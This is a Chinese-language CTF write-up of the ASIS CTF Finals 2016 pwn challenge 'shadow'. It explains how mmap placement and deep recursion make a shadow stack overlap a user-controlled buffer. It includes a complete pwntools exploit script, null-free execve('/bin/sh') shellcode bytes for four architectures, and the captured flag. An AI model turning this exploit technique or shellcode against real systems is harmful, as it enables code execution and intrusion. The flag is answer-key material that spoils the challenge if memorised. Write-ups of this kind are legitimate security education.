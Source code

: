```yaml
---
title: '[ASIS CTF Finals 2016] shadow 99'
author: bruce30262
tags:
  - pwn
  - heap
  - shadow stack
  - ASIS CTF Finals 2016
  - ''
categories:
  - write-ups
date: 2016-09-14
layout: post
---
```

## Info
> Category: pwn  
> Point: 99  
> Solver: bruce30262 @ BambooFox  
> 感謝 Ann Tsai 提供機器並幫忙跑 exploit，以及 angelboy 對 exploit 的指點 XD

## Analyzing  
32 bit ELF, 除了 stack guard 有開以外其他保護全部沒開

程式首先會用 `mmap` 配置一塊大小為 0x30000 的記憶體區塊，並將其當成 shadow stack 來使用，存放 return address。  

main function 裡面會先要我們輸入名字 (buffer 位址在 .bss 段)，之後我們可以選擇新增一個 beer，或是讀取/編輯一個 beer description。

新增一個 beer 時，程式會先要求 beer description 的長度，之後會呼叫 malloc 配置一塊相對應大小的 buffer 給我們輸入 beer description 的內容。至於讀取/編輯一個 beer description 則是會先要我們選擇要讀取/編輯的 beer，之後會印出 beer 的 description，並詢問我們是否要編輯 beer 的 description。此時如果輸入一個 invalid 的選項 ( not y or n )，程式會直接進行遞迴呼叫，再 call 一次該 function 並做同樣的事情，直到我們輸入 y 或 n 為止。

## Exploit  
這題關鍵的地方在於  

* 我們可以控制 malloc 的長度，以及 malloc 後 buffer 的內容
* 我們可以對程式做遞迴呼叫  

glibc 的 malloc 在 size 很大的時候 (超過 0x20000)，會改用 mmap 來進行動態的記體配置。而 mmap 出來的 memory page，會接在上一次 mmap 出來的 memory page 的前面。因此，透過第一點，我們可以嘗試去新增一個長度很長的 beer description，這樣程式在呼叫 mmap 之後**會將我們 beer description 的 buffer 接在 shadow stack 的前面。**  

之後我們可以嘗試對程式進行多次的遞迴呼叫，讓 shadow stack 不斷的 "往上長" (意即 shadow stack 的 top 位址會不斷得往前移)。只要 shadow stack 長到某一程度，就會跟我們 beer description 的 buffer 重疊在一起。此時我們再透過編輯 beer description 的功能，就可以改到 shadow stack 上的 return address，讓程式跳到我們想要的位址。這題因為只有 stack guard 的關係，可以執行 shellcode。 我們可以透過將 shellcode 塞入 name buffer，然後將 return address 改成 name buffer 位址的方式來跳 shellcode。

```python exp_shadow.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "shadow.asis-ctf.ir"
PORT = 31337
ELF_PATH = "./shadow"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def sc(arch=context.arch):
    if arch == "i386":
        # shellcraft.i386.linux.sh(), null free, 22 bytes
        return "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80"
    elif arch == "amd64":
        # shellcraft.amd64.linux.sh(), null free, 24 bytes
        return "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"
    elif arch == "arm":
        # null free, 27 bytes
        return "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x09\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68"
    elif arch == "aarch64":
        # 4 null bytes, total 35 bytes
        return "\x06\x00\x00\x14\xe0\x03\x1e\xaa\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xa8\x1b\x80\xd2\x21\x00\x00\xd4\xfb\xff\xff\x97\x2f\x62\x69\x6e\x2f\x73\x68"
    else:
        return None

def add_one(size, desr):
    r.sendline("1")
    log.info("send desc length")
    r.sendlineafter("length?\n", str(size))
    log.info("send desc")
    r.send(desr)

if __name__ == "__main__":
    
    shellcode_addr = 0x0804a520
    shellcode = sc()

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    log.info("send name (shellcode)")
    r.sendlineafter("name?\n", shellcode)
    r.recvuntil("it?\n")

    log.info("add one beer")
    add_one(0x20000, "A"*(0x20000-4)+"BBBB")
    r.recvuntil("beer uploaded to the memory!\n")
    r.recvuntil("0\n")
    log.info("add beer done")

    log.info("choose desc")
    r.sendline("2") # choose desc
    r.sendline("0") # input index

    log.info("recieving BBBB")
    print r.recvuntil("BBBB")
    log.info("recieving rest output")
    print r.recvuntil("\n")
    print r.recvline()
    log.info("start stacking stack")

    maxx = 80000
    for i in xrange(maxx):
        check = i% 10000
        if check == 0:
            print i
        r.sendline("z")

    r.sendline('y')
    r.send(p32(shellcode_addr)*(0x20000/4))

    r.interactive()
```


不過因為主辦方網路不穩的關係，我自己跑 exploit local 端是可以 work，但是 remote 端會 timeout，因此最後是將 exploit 上傳到 trello 請隊友 Ann Tsai 幫忙跑。一開始跑的時候還是會在某個地方卡住，經過安博的指點之後修了一下 exploit，最後成功拿 shell 並得到 flag。  

flag: `ASIS{732f9beb138dbca4e44d5d184c3074dc}`